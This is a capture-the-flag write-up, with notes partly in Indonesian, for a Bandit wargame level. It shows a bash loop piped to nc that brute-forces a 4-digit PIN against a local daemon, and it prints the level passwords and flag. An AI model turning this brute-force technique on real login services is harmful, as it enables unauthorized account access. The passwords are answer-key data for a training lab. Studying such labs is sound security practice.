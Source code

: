 ```yaml
---
layout: default
level: 25
name_file: level
---
```


{% include level-section.html %}

# soal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. \
There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing. \
You do not need to create new connections each time

# solve
```bash
echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8" | nc localhost 30002
# I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
# Wrong! Please enter the correct current password and pincode. Try again.
## kita butuh dengan memasukan passowrd bandit24 dan pincode dalam satu baris

echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 1234" | nc localhost 30002
# I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
# Wrong! Please enter the correct current password and pincode. Try again.

## disini saya mencoba untuk melakukan looping sederhana
for i in {1000..9999}; do echo $i; done
# 1000
# 1001
# ...

## saya mencoba komubinasikan dengan password bandit24
for i in {1000..9999}; do echo -e "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done
...
# gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9997
# gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9998
# gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9999

## setelah itu saya mengkombinasikan dengan pass
for i in {1000..9999}; do echo -e "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002
# Wrong! Please enter the correct current password and pincode. Try again.
# Wrong! Please enter the correct current password and pincode. Try again.
# Correct!
# The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

for i in {1000..9999}; do echo -e "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002  | grep -vi wrong
# I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
# Correct!
# The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

# after i ssh i found the pin
cat .pin
# 9297
```

# flag
iCi86ttT4KSNe1armKiwbQNmB3YJP3q4